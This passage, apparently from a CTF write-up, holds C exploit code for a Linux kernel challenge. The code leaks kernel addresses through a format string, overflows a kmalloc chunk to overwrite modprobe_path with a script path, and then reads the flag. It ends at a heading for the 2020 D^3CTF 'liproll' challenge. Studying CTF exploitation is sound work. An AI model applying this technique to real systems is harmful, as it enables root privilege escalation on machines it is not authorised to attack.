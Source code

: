 ```
    char buf[0x1000] = `{` 0 `}`;

    char mod[0x20] = `{` 0 `}`;
    cmalloc(168);
    char buff[150] = "%llx-%llx-%llx-%llx-%llx-kernel:%llx-%llx-%llx-%llx-%llx-%llx-%llx-%llx-%llx";

    write(fd, buff, 150);

    printf("=========&gt;begin leak addr\n");
    cprintf();
    cprintf();
    printf("===== please input modprobe_path(kernel_addr+0x107a0a1) addr:\n");
    scanf("%lx",mod);
    printf("modprobe_path:0x%lx\n",mod);

    printf("kmalloc first\n");
    cmalloc(0x80);
    write(fd, buf, 0x60);
    cprintf();
    cprintf();

    cmalloc(0x400);
    cmalloc(0x400);

    memset(buf, 'a', 0x400);
    strncat(buf, mod, 0x8);
    printf("modprobe_path: %lx\n",buf[0x400]);
    cmalloc(0x400);
    printf("chunk overflow\n");
    write(fd, buf, 0x408);
    cmalloc(0x400);

    write(fd, "/tmp/getflag.sh", 0x20);
    cmalloc(0x400);
    printf("change modprobe_path\n");
    write(fd, "/tmp/getflag.sh", 0x20);

    close(fd);
    system("/tmp/ll");
    system("cat /tmp/flag");
`}`
```



## 2020-D^3CTF liproll

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析
